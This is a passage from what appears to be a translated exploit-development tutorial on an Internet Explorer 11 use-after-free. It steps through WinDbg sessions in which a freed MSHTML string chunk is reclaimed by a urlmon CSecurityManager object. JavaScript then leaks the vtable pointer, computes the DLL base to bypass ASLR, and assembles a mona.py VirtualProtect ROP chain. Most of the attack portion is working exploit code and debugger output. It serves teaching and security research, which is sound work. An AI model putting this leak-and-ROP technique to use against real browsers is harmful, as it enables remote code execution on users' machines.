我们只是创建了一个 HTML INPUT 元素的对象实例，并将其类型设置为 range。在尝试替换涉及使用后释放漏洞的已释放内存时，我们尝试了许多对象/元素。其中一些使我们能够控制内存泄漏，而另一些则失败了。HTML 对象的创建会导致其分配最终出现在 Isolated Heap 中。这些元素的一些属性会导致在默认进程堆中进行各种类型的分配。大量属性与大量 HTML 元素相关联。分配的工作方式需要您花费大量时间进行反汇编和调试。有时，为尝试泄漏有用内容而故意进行的分配与我们最终实际访问的内容无关。虽然这句话有点奇怪，但已释放的内存可能被与您的内存分配完全无关（或至少间接相关）的东西所占用。在前面的源代码中也可以看到几个弹出警报，以便我们可以相应地附加调试器。

我们现在将在 WinDbg 中逐步执行此脚本。所选断点是基于在崩溃期间查看调用堆栈、使用 PageHeap 分析内存中的块，以及在 IDA 中反汇编 MSHTML.DLL 来选择的。我们将首先在 IE 11 中打开 trigger_with_object.html 文件。我们会收到一个弹出警报，显示“Before Creation of Text Area Object: Attach and Set Breakpoints”。然后我们打开 WinDbg，按 F6 附加到 Internet Explorer 进程，如所示。


请注意，我们正在附加到两个 iexplore.exe 进程中的较下方的那个。当以单个选项卡启动 IE 时，会自动启动两个进程。这可以追溯到 IE 8，当时 Microsoft 将 IE 受保护模式使用的经纪程序与单个选项卡的框架分开了。这主要用于帮助改善用户体验，防止错误导致整个浏览器崩溃并允许自动恢复。如果打开第二个选项卡，应该会创建另一个进程。无论如何，出于我们的目的，只需知道我们需要附加到较低的实例即可。

现在我们已经附加，让我们添加以下断点：

```
bp MSHTML!CTextArea::CreateElement+0x13
bp MSHTML!BASICPROPPARAMS::SetStringProperty
bp MSHTML!CTxtPtr::InsertRange
bp MSHTML!CStr::_Alloc+0x4f
bm MSHTML!_HeapReAlloc<0>
bp urlmon!CoInternetCreateSecurityManager
bp ole32!CoTaskMemAlloc+0x13
```

我们将在以下列表中介绍每个断点：

- MSHTML!CTextArea::CreateElement+0x13 此断点设置在对 HeapAlloc 的调用返回处。此时检查 EAX 将显示 textarea 对象的地址。
- MSHTML!BASICPROPPARAMS::SetStringProperty 如前所述，此函数出现在涉及使用后释放漏洞的对象调用链中。它会导致调用 HeapReAlloc 以及可能的释放操作。
- MSHTML!CTxtPtr::InsertRange 此函数会导致 memcpy 调用，将与 textarea 对象关联的初始内存分配中的字母 a 复制到浏览器中显示的目标位置。
- MSHTML!CStr::_Alloc+0x4f 我们使用此断点来跟踪将存储我们字母 a 的一些 BSTR 分配。随后我们会看到其中一个或多个分配被释放，用我们的对象重新分配，并涉及使用后释放漏洞。您可能需要仔细检查偏移量，以确保其与预期的 test eax, eax 指令匹配。
- bm MSHTML!_HeapReAlloc<0> 我们使用“中断匹配（bm）”选项，因为函数名称包含特殊字符。我们只会使用此断点一次来跟踪被释放的对象。
- urlmon!CoInternetCreateSecurityManager 此断点与我们正在创建的 INPUT 对象相关联。此函数将导致最终存储虚拟函数表指针的分配，我们将最终使用该指针绕过 ASLR。
- ole32!CoTaskMemAlloc+0x13 这是与前一个断点相关的实际分配时刻。该偏移量是在返回分配指针时。分配的地址应与之前 MSHTML!CStr::_Alloc 的分配相匹配，表明它们涉及使用后释放漏洞。

我们将在各个时间点启用和禁用这些断点，以便高效调试。接下来，让我们发出 bl 命令列出断点，然后使用 bd * 禁用所有断点，接着使用命令 be 0 1 启用断点 0 和 1。然后通过按 F5 或输入 g 告诉调试器继续执行。

```
0:018> bl
  0 e 6dde62f3     0001 (0001)  0:**** MSHTML!CTextArea::CreateElement+0x13
  1 e 6db02cab     0001 (0001)  0:**** MSHTML!BASICPROPPARAMS::SetStringProperty
  2 e 6d93bef0     0001 (0001)  0:**** MSHTML!CTxtPtr::InsertRange
  3 e 6d8d7174     0001 (0001)  0:**** MSHTML!CStr::_Alloc+0x4f
  4 e 7727fc40     0001 (0001)  0:**** urlmon!CoInternetCreateSecurityManager
  5 e 6e0df435     0001 (0001)  0:**** MSHTML!_HeapReAlloc<0>
  6 e 75bdea4f     0001 (0001)  0:**** ole32!CoTaskMemAlloc+0x13
0:018> bd *
0:018> be 0 1
0:018> g
```

断点设置好，IE 11 在调试器中运行后，我们在弹出警报框上单击确定。我们立即在断点 0 处命中于


## MSHTML!CTextArea::CreateElement+0x13:

```
Breakpoint 0 hit
eax=03018300 ebx=00000000 ecx=03170000 edx=011868ca esi=03b3bdc4 edi=6dde62e0
eip=6dde62f3 esp=03b3bdb0 ebp=03b3bdb0 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
MSHTML!CTextArea::CreateElement+0x13:
6dde62f3 85c0            test    eax,eax
```

此时，EAX 中存放的是内存地址 0x03018300，即创建后的文本区域对象。此时我们希望为 MSHTML!CTxtPtr::InsertRange 启用断点 2，以便跟踪与文本区域元素关联的分配中 a 的复制。启用此断点（使用 be 2）后，按两次 F5 以第二次命中断点 2。命中断点后，按住 F8 单步执行，直到到达 memcpy 调用，如下所示：

```
0:007> be 2
0:007> g
Breakpoint 2 hit
eax=00000001 ebx=00000039 ecx=03b3bd84 edx=fdef0000 esi=030a80f0 edi=00000001
eip=6d93bef0 esp=03b3bd44 ebp=03b3be04 iopl=0         nv up ei ng nz na pe cy
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000287
MSHTML!CTxtPtr::InsertRange:
6d93bef0 8bff            mov     edi,edi
0:007> g
Breakpoint 2 hit
eax=00000269 ebx=00000039 ecx=03b3bd84 edx=00000265 esi=030a80f0 edi=00000265
eip=6d93bef0 esp=03b3bd44 ebp=03b3be04 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000206
MSHTML!CTxtPtr::InsertRange:
6d93bef0 8bff            mov     edi,edi
```

## 由于篇幅限制，已截断。F8 被按住直到到达下一条指令：

```
0:007> t
eax=0050dafa ebx=03b3bd84 ecx=000004ca edx=00002000 esi=02fec0d0 edi=00000072
eip=6d93bf91 esp=03b3bd00 ebp=03b3bd40 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000206
MSHTML!CTxtPtr::InsertRange+0x9d:
6d93bf91 ff15d001a56e    call    dword ptr [MSHTML!_imp__memcpy_s
```

可以看到，我们已到达从 MSHTML!CTxtPtr::InsertRange 到 memcpy_s 的调用。EAX 寄存器保存地址 0x0050dafa，即 a 将被写入的目标地址。以下是 memcpy_s 函数完成前该地址处的内存，随后是用于跳出函数的 gu 命令，以及另一次内存转储：

```
0:007> dd 0050dafa
0050dafa 00000000 00000000 00000000 00000000
0050db0a 00000000 00000000 00000000 00000000
0050db1a 00000000 00000000 00000000 00000000
0050db2a 00000000 00000000 00000000 00000000
0050db3a 00000000 00000000 00000000 00000000
0050db4a 00000000 00000000 00000000 00000000
0050db5a 00000000 00000000 00000000 00000000
0050db6a 00000000 00000000 00000000 00000000
```

```
0:007> gu
eax=00000000 ebx=03b3bd84 ecx=00000000 edx=00000000 esi=02fec0d0 edi=00000072
eip=6d93bf97 esp=03b3bd00 ebp=03b3bd40 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
MSHTML!CTxtPtr::InsertRange+0xa3:
6d93bf97 8b4508        mov     eax,dword ptr [ebp+8] ss:002b:03b3bd48=39000000
```

```
0:007> dc 0050dafa
0050dafa 00610061 00610061 00610061 00610061  a.a.a.a.a.a.a.
0050db0a 00610061 00610061 00610061 00610061  a.a.a.a.a.a.a.
0050db1a 00610061 00610061 00610061 00610061  a.a.a.a.a.a.a.
0050db2a 00610061 00610061 00610061 00610061  a.a.a.a.a.a.a.
0050db3a 00610061 00610061 00610061 00610061  a.a.a.a.a.a.a.
0050db4a 00610061 00610061 00610061 00610061  a.a.a.a.a.a.a.
0050db5a 00610061 00610061 00610061 00610061  a.a.a.a.a.a.a.
0050db6a 00000061 00000000 00000000 00000000  a.............
```

可以看到，我们的 a 已复制到内存中。这就是你在浏览器窗口中可以直观看到的 a 的实际地址。当发生内存泄漏时，这将变得明显。接下来，我们禁用断点 2，并为 MSHTML!CStr::_Alloc+0x43 启用断点 3。我们还需要在 a 刚被写入的地址上设置一个“访问断点”，因为该位置对内存泄漏很重要。我们需要从地址 0x0050dafa 减去 2 字节，使其 4 字节对齐。做出这些更改后，列出断点以验证其是否正确。

```
0:007> bd 2
0:007> be 3
0:007> ba w4 0050daf8
0:007> bl
```

```
0 e 6dde62f3    0001 (0001)  0:****  MSHTML!CTextArea::CreateElement+0x13
1 e 6db02cab    0001 (0001)  0:****  MSHTML!BASICPROPPARAMS::SetStringProperty
2 d 6d93bef0    0001 (0001)  0:****  MSHTML!CTxtPtr::InsertRange
3 e 6d8d7174    0001 (0001)  0:****  MSHTML!CStr::_Alloc+0x43
4 d 7727fc40    0001 (0001)  0:****  urlmon!CoInternetCreateSecurityManager
5 d 6e0df435    0001 (0001)  0:****  MSHTML!_HeapRealloc<>
6 d 75bbea5f    0001 (0001)  0:****  ole32!CoTaskMemAlloc+0x13
7 e 0050daf8 w 4 0001 (0001) 0:****
```

可以通过断点编号旁边的 e 或 d 来查看断点是否启用或禁用。我们准备好按 F5 继续执行。我们立即命中了 MSHTML!CStr::_Alloc+43 的断点。出于某种原因，尽管我们将断点设置为 +4f，但它显示为 +43。暂时可以忽略这一点，因为它似乎仍在 test eax, eax 指令的适当位置中断。让我们记录 EAX 中保存的 0x04ec71b8 地址，因为它也将存储我们的 a，稍后将展示这一点。执行几次 gu 后，我们的 a 将出现在该地址处。此块地址很重要，因为它很快将因 eventhandler 函数而被重新分配。

```
Breakpoint 3 hit
eax=04ec71b8 ebx=03018344 ecx=00420000 edx=00427920 esi=00000000 edi=00000039
eip=6d8d7174 esp=03b3c184 ebp=03b3c198 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
MSHTML!CStr::_Alloc+0x43:
6d8d7174 85c0            test    eax,eax
0:007> gu  # Executed a couple of times until the address in EAX held our a's
0:007> dc 04ec71b8
04ec71b8  00000072 00610061 00610061 00610061  r...a.a.a.a.a.a.
04ec71c8  00610061 00610061 00610061 00610061  a.a.a.a.a.a.a.a.
04ec71d8  00610061 00610061 00610061 00610061  a.a.a.a.a.a.a.a.
04ec71e8  00610061 00610061 00610061 00610061  a.a.a.a.a.a.a.a.
04ec71f8  00610061 00610061 00610061 00610061  a.a.a.a.a.a.a.a.
04ec7208  00610061 00610061 00610061 00610061  a.a.a.a.a.a.a.a.
04ec7218  00610061 00610061 00610061 00610061  a.a.a.a.a.a.a.a.
04ec7228  00610061 00000061 8892b1a1 80000000  a.a.............
```

另请注意，CStr::_Alloc 执行的内存分配的以下反汇编：

```
mov    ecx, _g_hProcessHeap ; hHeap
call   ??$HeapAlloc@$0A@@MemoryProtection
```

分配使用进程堆，跟踪执行显示 MemGC 未保护这些分配。接下来，我们在调试器中继续执行，并立即再次命中 MSHTML!CStr::_Alloc+43 断点：

```
Breakpoint 3 hit
eax=04ec74b8 ebx=0301834c ecx=00420000 edx=00427920 esi=00000000 edi=00000039
eip=6d8d7174 esp=03b37ff0 ebp=03b38004 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
MSHTML!CStr::_Alloc+0x43:
6d8d7174 85c0            test    eax,eax
```

我们记录 EAX 中保存的 0x04ec74b8 地址，因为它也与此断点的先前命中以及我们的源代码相关。接下来，我们禁用断点 3 并继续执行。继续执行后，我们到达 MSHTML!BASICPROPPARAMS::SetStringProperty 断点，该断点在由 form.reset() 状态更改触发的 eventhandler 函数内部到达：

```
0:007> bd 3
0:007> g
Breakpoint 1 hit
eax=00000000 ebx=03018300 ecx=6d996258 edx=04ed48ac esi=00000000 edi=6d996244
eip=6db02cab esp=03b39d14 ebp=03b39d3c iopl=0         nv up ei pl zr na pe nc
cs=0023 ss=002b ds=002b es=002b fs=0053 gs=002b             efl=00000246
MSHTML!BASICPROPPARAMS::SetStringProperty:
6db02cab 8bff          mov     edi,edi
```

这发生在文本区域默认值设置为 “foo”之前。我们现在将为 MSHTML!_HeapRealloc<0> 启用断点。这会导致在对 MSHTML!CStr::_Alloc 分配的初始块进行大小调整的 realloc 调用时暂停执行。

```
0:007> be 5
0:007> g
Breakpoint 5 hit
eax=04ec71bc ebx=04ed48ac ecx=03b39c8c edx=00000000 esi=03018344 edi=00000003
eip=6e0df435 esp=03b39c74 ebp=03b39c94 iopl=0         nv up ei pl nz na pe nc
cs=0023 ss=002b ds=002b es=002b fs=0053 gs=002b             efl=00000206
MSHTML!_HeapRealloc<>:
6e0df435 8bff          mov     edi,edi
0:007> bd 5
```

如你所见，EAX 保存地址 0x04ec71bc，即我们从 MSHTML!CStr::_Alloc 跟踪到的初始块的相同地址。实际上，它相差几个字节，但这只是由于对齐造成的。以下输出是在我们按住 F8 键几秒钟后显示的，一旦看到对 memmove 的调用，就小心停止：

```
0:007> t
eax=0000000c ebx=0047fb88 ecx=0000000c edx=00427920 esi=04ec71b8 edi=0047fb88
eip=777d898e esp=03b39a98 ebp=03b39aa0 iopl=0         nv up ei ng nz na po cy
cs=0023 ss=002b ds=002b es=002b fs=0053 gs=002b             efl=00000283
ntdll!memmove+0xe:
777d898e 8bc1          mov     eax,ecx
```

进入 memmove 几条指令后，源地址和目标地址参数分别加载到 ESI 和 EDI 中。EDI 中是调整大小后的块的目标地址，该块最终将被设置为 “foo”。ESI 保存我们在 realloc 调用中刚看到的块的地址。让我们使用 !heap 命令检查移动前源块的状态，然后在退出这些函数调用后再次检查：


```
0:007> !heap -p -a 04ec71b8
address 04ec71b8 found in
_HEAP @ 420000
HEAP_ENTRY Size Prev Flags UserPtr UserSize - state
04ec71b0 0010 0000 [00] 04ec71b8 00078 - (busy)
```

```
0:007> gu
0:007> gu
0:007> !heap -p -a 04ec71b8
address 04ec71b8 found in
_HEAP @ 420000
HEAP_ENTRY Size Prev Flags UserPtr UserSize - state
04ec71b0 0010 0000 [00] 04ec71b8 00078 - (free)
```

可以看到该 chunk 现已空闲并可供重新分配。如果跟踪我们之前看到从 MSHTML!CStr::_Alloc 函数分配的另一个 chunk，会发现它也在各个时间点被释放。我们将继续在 urlmon!CoInternetCreateSecurityManager 上启用断点：

```
0:007> be 4
0:007> g
Breakpoint 4 hit
eax=03b38f70 ebx=03010500 ecx=00000000 edx=0000000b esi=6d8471b4 edi=030bae5c
eip=7727fc40 esp=03b38f48 ebp=03b38f7c iopl=0 nv up ei pl zr na pe nc
cs=0023 ss=002b ds=002b es=002b fs=0053 gs=002b efl=00000246
urlmon!CoInternetCreateSecurityManager:
7727fc40 8bff mov edi,edi
```

由于我们在释放前一个对象后正在创建的对象，并将其设置为类型范围，因此命中了此断点。现在必须在 ole32!CoTaskMemAlloc+0x13 上启用断点，以跟踪用于分配的地址：

```
0:007> be 6
0:007> g
Breakpoint 6 hit
eax=04ec71b8 ebx=03010500 ecx=777ce40c edx=00427920 esi=6d8471b4 edi=030bae5c
eip=75bbea5f esp=03b38f20 ebp=03b38f20 iopl=0 nv up ei pl zr na pe nc
cs=0023 ss=002b ds=002b es=002b fs=0053 gs=002b efl=00000246
ole32!CoTaskMemAlloc+0x13:
75bbea5f 5d pop ebp
0:007> bd 6
```

EAX 中的地址应该看起来很眼熟。这就是我们迄今一直在跟踪的 chunk 地址。让我们转储其内容，然后单步跳出几个函数，再次转储：

```
0:007> dd 04ec71b8
04ec71b8  000000e2 00610061 00610061 00610061
04ec71c8  00610061 00610061 00610061 00610061
04ec71d8  00610061 00610061 00610061 00610061
04ec71e8  00610061 00610061 00610061 00610061
04ec71f8  00610061 00610061 00610061 00610061
04ec7208  00610061 00610061 00610061 00610061
04ec7218  00610061 00610061 00610061 00610061
04ec7228  00610061 00000061 0892b1a1 8e000000
```

```
0:007> gu
0:007> gu
0:007> dd 04ec71b8
04ec71b8  7725454c 77254504 772544d4 77254514
04ec71c8  00000001 00000001 04ec71c4 00000000
04ec71d8  00000000 00000000 00000000 00000000
04ec71e8  00000000 00000000 77254530 004937e0
04ec71f8  00000000 00000000 00000000 77254530
04ec7208  00000000 00000001 00000000 00000000
04ec7218  77254530 004937e0 00000000 00000000
04ec7228  00000000 00000061 0892b1a1 8e000000
```

查看 chunk 顶部的地址。它们分别是 0x7725442c、0x77254504、0x772544d4 和 0x77254514。让我们在这些地址上运行 dt 命令，看看它们是什么：

```
0:007> dt poi(04ec71b8)
CSecurityManager:::`vftable'
Symbol not found.
0:007> dt poi(04ec71b8+4)
CSecurityManager:::`vftable'
Symbol not found.
0:007> dt poi(04ec71b8+8)
CSecurityManager:::`vftable'
Symbol not found.
0:007> dt poi(04ec71b8+c)
CSecurityManager::CPrivUnknown::`vftable'
```

各种 CSecurityManager 虚函数表的指针以及指向 CSecurityManager::CPrivUnknown 表的指针已被写入。让我们继续执行，可能会看到相同的 VTable 信息写入到其他位置：

```
Breakpoint 7 hit
eax=00000045 ebx=03b39cc4 ecx=00000001 edx=00000000 esi=04ec71b8 edi=0050dafa
eip=754a9d7d esp=03b39bc4 ebp=03b39bcc iopl=0         nv up ei pl nz na po nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000202
msvcrt!memcpy+0xd3:
754a9d7d 83c602          add     esi,2
0:007> dd edi
0050dafa fdef4504 00610061 00610061 00610061
0050db0a 00610061 00610061 00610061 00610061
0050db1a 00610061 00610061 00610061 00610061
0050db2a 00610061 00610061 00610061 00610061
0050db3a 00610061 00610061 00610061 00610061
0050db4a 00610061 00610061 00610061 00610061
0050db5a 00610061 00610061 00610061 00610061
0050db6a fdef0061 fdeffdef fdeffdef 000afdef
```

请注意，我们命中了早先创建的“break on access”断点，当时我们的 a 最初被写入到浏览器用户界面的可见窗口中。该地址为 0x0050dafa，在此断点时存储在 EDI 寄存器中。ESI 寄存器中的地址是我们一直在跟踪的对象，该对象在 realloc 调用后被释放。你可能会多次命中此断点。在与该地址关联的每次 memcpy 中断后转储该地址的内容后，我们最终得到了上面的输出。

在输入 gu 以单步跳出最后一个 memcpy 调用后，我们得到以下结果：

```
0:005> dd 0050daf8
0050daf8 4504fdef 44d47725 45147725 fffd7725
0050db08 00610061 00610061 00610061 00610061
0050db18 00610061 00610061 00610061 00610061
0050db28 00610061 00610061 00610061 00610061
0050db38 00610061 00610061 00610061 00610061
0050db48 00610061 00610061 00610061 00610061
0050db58 00610061 00610061 00610061 00610061
0050db68 00610061 fdeffdef fdeffdef fdeffdef
```

让进程继续运行后，我们再次查看浏览器窗口，看到如下结果。


中文字符是将 VTable 地址从 Unicode 转换后的显示结果，但我们知道它们真正是什么！作为最终验证，我们将单击“Replace Text With B’s”按钮。我们命中了断点：

```
Breakpoint 7 hit
eax=00000042 ebx=03b398ec ecx=00000034 edx=00000000 esi=04ed7e68 edi=0050dafa
eip=754a9d74 esp=03b397ec ebp=03b397f4 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
msvcrt!memcpy+0xca:
754a9d74 8a4601          mov     al,byte ptr [esi+1]
ds:002b:04ed7e69=00
0:005> dd 0050daf8
0050daf8  4504fdef 44d47725 45147725 fffd7725
0050db08  00610061 00610061 00610061 00610061
0050db18  00610061 00610061 00610061 00610061
0050db28  00610061 00610061 00610061 00610061
0050db38  00610061 00610061 00610061 00610061
0050db48  00610061 00610061 00610061 00610061
0050db58  00610061 00610061 00610061 00610061
0050db68  00610061 fdeffdef fdeffdef fdeffdef
0:005> gu
0:007> dc 0050daf8
0050daf8  0042fdef 00420042 00420042 00420042 ...B.B.B.B.B.B.B.
0050db08  00420042 00420042 00420042 00420042 B.B.B.B.B.B.B.B.
0050db18  00420042 00420042 00420042 00420042 B.B.B.B.B.B.B.B.
0050db28  00420042 00420042 00420042 00610061 B.B.B.B.a.a.a.a.
0050db38  00610061 00610061 00610061 00610061 a.a.a.a.a.a.a.a.
0050db48  00610061 00610061 00610061 00610061 a.a.a.a.a.a.a.a.
0050db58  00610061 00610061 00610061 00610061 a.a.a.a.a.a.a.a.
0050db68  00610061 fdeffdef fdeffdef fdeffdef a.a.............
```

这里可以看到，我们命中了由单击警报按钮引起的断点。我们在断点处转储内存以显示其未更改，然后执行 gu，再次转储。可以看到，我们的 B 已经写入到该地址。允许执行继续后，浏览器窗口中出现以下结果。


在浏览器中检查元素时，得到如下结果。


我们需要获取打印到屏幕上的字符的 Unicode 并将其转换为十六进制，以便查看是否与预期一致。我们已确认并跟踪了内存泄漏漏洞，现在让我们进入利用阶段！

## 利用内存泄漏

我们现在需要添加一些简单的 JavaScript 代码行来利用泄漏的地址。首先，我们要确认能够成功访问并将 Unicode 转换为十六进制值。然后，需要定位 RVA 偏移量，并从泄漏地址中减去它以获取基地址。完成后，可以使用 corelanc0d3r 的 mona.py——或者另一个工具，例如 Sascha Schirra 的 Ropper——根据 RVA 偏移量生成 ROP 链。

接下来我们将使用文件 Leaked_urlmon.html。首先，来看看用于转换泄漏地址的 printLeak 函数的添加：

```
function printLeak() {
    var text = document.getElementById("textarea"); // Getting swapped element
    var leak = text.value.substring(0, 2); // Grabbing index[0:2]
    var hex = parseInt(leak.charCodeAt(1).toString(16) + leak.charCodeAt(0).toString(16), 16);
    // parseInt( leak.charCodeAt(1).toString(16)
    // + leak.charCodeAt(0).toString(16), 16 )
    // Above line lifted on April 20th, 2017 from:
    // https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/
    // windows/browser/ms13_037_svg_dashstyle.rb
    text.value = "Leaked address: 0x"+hex.toString(16) + " - urlmon!CSecurityManager::`vftable'";
}
```

我们逐行分析。首先是第一行：

```
var text = document.getElementById("textarea");
```

此行仅根据 ID 获取 textarea 元素，并将其分配给变量 text。

在第二行中，我们创建一个名为 leak 的变量，并访问页面上打印的前两个 Unicode 字符：

```
var leak = text.value.substring(0, 2);
```

我们之前看到的第一个字符是 蕃。让我们使用在线转换器来打印出


该字符的十六进制值。我们将使用 https://unicodelookup.com 上的转换器。结果如图所示。


如您所见，十六进制值为 0x4504。当我们转换前两个字符 蔣 和 萳 时，在 Unicode Lookup 中得到如下结果。


两个值拼接后的十六进制值为 0x77254504。在重启系统并重定基 DLL 之前，该地址将保持不变。让我们在调试器中查看以确认此地址：

```
0:017> dt 77254504
CSecurityManager::vftable
```

我们还来分析一下地址：

```
0:017> !address 77254504

Usage:                    Image
Base Address:             77251000
End Address:              77331000
Region Size:              000e0000
State:                    00001000      MEM_COMMIT
Protect:                  00000020      PAGE_EXECUTE_READ
Type:                     01000000      MEM_IMAGE
Allocation Base:          77250000
Allocation Protect:       00000080      PAGE_EXECUTE_WRITECOPY
Image Path:               C:\\Windows\\syswow64\\urlmon.dll
Module Name:              urlmon
Loaded Image Name:        C:\\Windows\\syswow64\\urlmon.dll
```

我们可以看到该地址属于 urlmon.dll，且基址为 0x77250000，因此 RVA 偏移为 0x4504。现在回到我们刚才查看的那行代码：

```
var leak = text.value.substring(0, 2);
```

此代码仅将我们刚才查看的前两个 Unicode 值赋给变量 leak。下一行如下：

```
var hex = parseInt(leak.charCodeAt(1).toString(16) // Line wrapped below
+ leak.charCodeAt().toString(16), 16);
```

如源代码注释所示，该行摘自 2017 年 4 月 20 日的 https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/browser/ms13_037_svg_dashstyle.rb。它只是获取 leak 变量，并按逆序将其从 Unicode 转换为十六进制，因此值为 0x77254504 而不是 0x45047725，这是由于内存中的存储方式所致。printLeak 函数中的最后一行如下：

```
text.value = "Leaked address: 0x"+hex.toString(16) // Line wrapped below
+ " - urlmon!CSecurityManager::vtable";
```

此处，我们只是将 text.value 或“innerHTML”设置为泄露并转换后的十六进制地址，以便在屏幕上的文本区域位置显示。其旁边我们打印“urlmon!CSecurityManager::vtable”，因为我们确认了这就是泄露指针的目标。

在 HTML 源代码中，我们还创建了一个 CButton，单击时会执行 printLeak 函数。以下图片分别显示了单击前后的结果。


一切看起来都正常。让我们添加并修改以下内容，以减去 RVA 偏移 0x4504 来计算基址：

```
base_address = hex - 0x4504
text.value = "Leaked address: 0x"+ base_address.toString(16) // Line wrapped below
+ " - urlmon!CSecurityManager::vftable";
```

以下是浏览器屏幕上的结果。


## 构建 RVA ROP 链

本章的最后一项工作是使用 corelanc0d3r 的 mona.py 生成 RVA ROP 链。尽管 Mona 可用于 WinDbg，但我们将使用 Immunity Security 的 Immunity Debugger。在将 Immunity Debugger 附加到 IE 11 后，我们执行以下命令来生成 ROP 链：

```
!mona rop -m urlmon.dll -cp nonull -rva
```

以下是针对 VirtualProtect 生成的 ROP 链示例之一：

```
*** [ Python ] ***
def create_rop_chain(base_urlmon_dll):
    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
    base_urlmon_dll + 0x0005fd02,          # POP EAX # RETN [urlmon.dll]
    base_urlmon_dll + 0x0000ebd4,          # ptr to &VirtualProtect()
    base_urlmon_dll + 0x0000d89b,          # MOV EAX,DWORD PTR DS:[EAX] # RETN
    base_urlmon_dll + 0x00075126,          # XCHG EAX,ESI # RETN [urlmon.dll]
    base_urlmon_dll + 0x0006aa98,          # POP EBP # RETN [urlmon.dll]
    base_urlmon_dll + 0x0003ecd1,          # & jmp esp [urlmon.dll]
    0x00000000,                            # [-] Unable to find gadget to put 00000201 into ebx
    base_urlmon_dll + 0x000c5942,          # POP EAX # RETN [urlmon.dll]
    0xa03c7540,                            # put delta into eax (-> put 0x00000040 into edx)
    base_urlmon_dll + 0x0002b801,          # ADD EAX,5FC38B00 # POP ESI # POP EBX
    0x41414141,                            # Filler (compensate)
    0x41414141,                            # Filler (compensate)
    base_urlmon_dll + 0x0003da04,          # XCHG EAX,EDX # RETN [urlmon.dll]
    0x41414141,                            # Filler (RETN offset compensation)
    0x41414141,                            # Filler (RETN offset compensation)
    base_urlmon_dll + 0x0004b1aa,          # POP ECX # RETN [urlmon.dll]
    base_urlmon_dll + 0x000e273d,          # &Writable location [urlmon.dll]
    base_urlmon_dll + 0x0005ff35,          # POP EDI # RETN [urlmon.dll]
    base_urlmon_dll + 0x00049dc2,          # RETN (ROP NOP) [urlmon.dll]
    base_urlmon_dll + 0x000c5946,          # POP EAX # RETN [urlmon.dll]
    0x90909090,                            # nop
    base_urlmon_dll + 0x0006173,          # PUSHAD # ADD EAX,8B5E5F00
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)
```

```
# [urlmon.dll] ASLR: True, Rebase: True, SafeSEH: True, OS: True, v11.00
base_urlmon_dll = 0x752f0000
rop_chain = create_rop_chain(base_urlmon_dll)
```

看起来只有一个小工具未找到。我们缺少将 0x201 放入 EBX 以作为 VirtualProtect 大小参数的小工具。这可以通过查找补偿小工具轻松解决。乍一看，以下小工具是手动找到的，可以添加：

```
xor eax, eax  # Zero out EAX
retn

add eax, 1c   # Rerun this as many times as needed to reach 0x201
retn          # There are likely other values besides 0x1c

inc eax       # If necessary to increment by 1
retn

push eax      # Push the value destined for EBX onto the stack
retn

pop ebx       # Get the value into EBX
retn
```

实现该目标可能有多种方法。在此示例中，您需要重新排序小工具，因为 EAX 需要解引用 VirtualProtect 的 IAT 条目，然后将其与 ESI 交换，如 ROP 链的第一部分所示。目前，我们只需使用带有未解析小工具的 ROP 链，并将其添加到我们的内存泄露 HTML 文件中以演示这一点。以下脚本部分不必要；但是，它之所以被这样创建，是为了让您直观地看到 RVA 偏移是如何添加到恢复的基址中的。以下是更新后的 Final_leaked.html 文件的部分内容：

```
function getRopChain() {

b = document.createElement("form");
b.style.fontFamily = "Courier New";
document.body.appendChild(b);
var g1 = base_address + 0x5fd02;
var g2 = base_address + 0xebd4;
var g3 = base_address + 0xd89b;
var g4 = base_address + 0x75126;
var g5 = base_address + 0x6aa98;
var g6 = base_address + 0x3ecd1;
var g7 = 0x00000000;
var g8 = base_address + 0xc5942;
var g9 = 0xa03c7540;
var g10 = base_address + 0x2b801;
var g11 = 0x41414141;
var g12 = 0x41414141;
var g13 = base_address + 0x3da04;
var g14 = 0x41414141;
var g15 = 0x41414141;
var g16 = base_address + 0x4b1aa;
var g17 = base_address + 0xe273d;
var g18 = base_address + 0x5ff35;
var g19 = base_address + 0x49dc2;
var g20 = base_address + 0xc5946;
var g21 = 0x90909090;
var g22 = base_address + 0x6173;
```

如您所见，我们使用泄露的基址和来自 Mona 的 RVA 偏移来创建小工具变量。创建了另一个按钮，在内存泄露后打印生成的 ROP 链。同样，这完全不必要，但它向您展示了最终地址的计算方式。以下图片显示了结果，最后一张显示了完整的 ROP 链。


```
Leaked address: 0x77254504 CSecurityManager::'vftable'
Base address: 0x77250000 (Leaked address - RVA 0x4504)

Get Leaked Address

Get ROP Chain

ROP Chain

- RVA Chain created with Mona.py from corelanc0d3r...
- RVA's added to leaked base address: 77250000

772afd02 - POP EAX # RETN [IAT urlmon.dll] @ Base: 0x77250000 + RVA Offset: 0x5fd02
7733b0d4 - ptr to &VirtualProtect [IAT urlmon.dll] @ Base: 0x77250000 + RVA Offset: 0xeb0d4
7725d89b - MOV EAX,DWORD PTR DS:[EAX] # RETN [urlmon.dll] @ Base: 0x77250000 + RVA Offset: 0xd89b
772c5126 - XCHG EAX,ESI # RETN [urlmon.dll] @ Base: 0x77250000 + RVA Offset: 0x75126
772baa98 - POP EBP # RETN [urlmon.dll] @ Base: 0x77250000 + RVA Offset: 0x6aa98
7728ecdd - & jmp esp [urlmon.dll] @ Base: 0x77250000 + RVA Offset: 0x3ecdd
00000000 - [-] Unable to find gadget to put 00000201 into ebx
77315942 - POP EAX # RETN [urlmon.dll] @ Base: 0x77250000 + RVA Offset: 0xc5942
